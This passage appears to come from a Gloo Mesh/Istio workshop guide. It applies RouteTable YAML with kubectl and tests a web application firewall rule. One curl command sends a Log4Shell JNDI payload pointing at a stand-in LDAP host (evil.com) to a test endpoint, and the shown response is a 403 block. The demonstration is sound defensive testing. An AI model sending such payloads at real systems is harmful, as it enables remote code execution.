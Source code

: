 ```bash
              expose: "true"
            workspace: httpbin
        sortMethod: ROUTE_SPECIFICITY
EOF
```



Run the following command to simulate an attack:

```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" -k "https://cluster1-httpbin.example.com/get" -i
```

The request should be rejected:

```,nocopy
HTTP/2 403 
content-length: 27
content-type: text/plain
date: Tue, 05 Apr 2022 10:20:06 GMT
server: istio-envoy

Log4Shell malicious payload
```

Let's apply the original `RouteTable` yaml:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main-bookinfo
  namespace: istio-gateways
spec:
  hosts:
    - cluster1-bookinfo.example.com
    - cluster2-bookinfo.example.com
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
            workspace: bookinfo
          - labels:
              expose: "true"
            workspace: gateways
        sortMethod: ROUTE_SPECIFICITY
---
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main-httpbin
  namespace: istio-gateways
spec:
  hosts:
    - cluster1-httpbin.example.com
  virtualGateways:
```